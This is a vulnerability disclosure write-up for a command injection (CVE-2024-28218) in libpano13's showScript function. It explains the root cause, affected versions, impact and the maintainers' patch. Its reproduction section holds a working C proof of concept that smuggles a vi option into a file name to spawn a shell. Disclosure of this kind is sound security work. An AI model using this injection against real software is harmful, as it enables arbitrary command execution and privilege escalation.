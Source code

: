 ```yaml
---
title: Command injection in Panorama Tools (CVE-2024-28218)
tags:
  - vulnerability-discovery
  - open-source
date: 2024-03-08
slug: CVE-2024-28218
---
```


# Summary

A command injection in `showScript()` in `libpano13` `0.1` through `2.9.21` allows context-dependent attackers to execute arbitrary commands via the function's parameters.

# Root cause analysis

`showScript` is a function implemented by `libpano13`, but dependent on the operating system. Therefore, there are multiple implementations for MacOS, Windows, ANSI and X11. The last three are vulnerable to command injection, as they are executing commands built by using the unsanitized input given as a parameter.

Taking the X11 implementation as an example, it can be seen that the `name` member of the `fullPath` structure is directly placed into the `vi` command. The latter is executed with `system`.

```c
void showScript(fullPath* scriptFile){
    char cmd[sizeof(fullPath) + 16];

    snprintf( cmd, sizeof(cmd)-1, "vi \"%s\"", scriptFile->name );
    if (system( cmd ) == -1) {
        PrintError("Unable to execute script editor");
    }
}
```

# CWEs

- CWE-77: Improper Neutralization of Special Elements Used in a Command ('Command Injection')

# Affected components releases

The `showScript` function, exposed in `libpano13`'s `filter.h`, is affected.

The vulnerable code snippets were introduced in the first revision for ANSI and Windows, and in the 14th revision for X11. All were released in December 2003, so the affected releases started from `0.1`.

The vulnerability was patched in `3005eda747af` and `61865cbe74ba` by replacing the vulnerable function with a stub. These commits are embedded in the `2.9.22` release.

This being said, the versions are those between `>=0.1` and `<=2.9.21` are affected.

# Attack vector

An attacker must attack an application linking `libpano13` and control the parameter provided to the `showScript` function (for example, via command line arguments) to exploit the vulnerability.

# Impact

The impact depends on how pano13 is integrated into the end application. If the end application calls `showScript` with a user-controlled `fullPath`, then the attacker is able to run arbitrary commands under the user on which the application's process was created. If the application is owned by `root` and has the SUID bit set, the vulnerability leads to full system compromise.

# CVSS v3.1 vector

- Vector: `AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
- Base score: 8.4

# Steps to reproduce

Compile the following program with `gcc pano.c -lpano13  -o pano`. A shell will be spawned for the user under which the program is executed.

```c
#include <pano13/filter.h>
#include <stdlib.h>

int main(int argc, char **argv) {
  fullPath *outFile = malloc(sizeof(fullPath));
  char cmd[sizeof(fullPath) + 16];

  sprintf(cmd, "vi \"%s\"", "/tmp/\" --cmd \":set shell=sh|:shell");
  printf("[+] The executed command will be: %s\n", cmd);

  StringtoFullPath(outFile, (char *)"/tmp/\" --cmd \":set shell=sh|:shell");
  showScript(outFile);

  return 0;
}
```

# Patch

## Recommended to the maintainers

As `showScript` takes a `fullPath` structure as a first parameter, a sanitisation method (such as `realpath`) can be called in `fullPath`'s constructors, `StringtoFullPath` and `jpathTofullPath`.

## Applied by the maintainers

The vulnerability was patched in [the commit `3005ed`](https://sourceforge.net/p/panotools/libpano13/ci/3005eda747afbb652ce9a5791b7c297ef4104dd2/) by removing the `showScript` function.

The patch was made available to the users in [the `2.9.22` release](https://sourceforge.net/projects/panotools/files/libpano13/libpano13-2.9.22/).

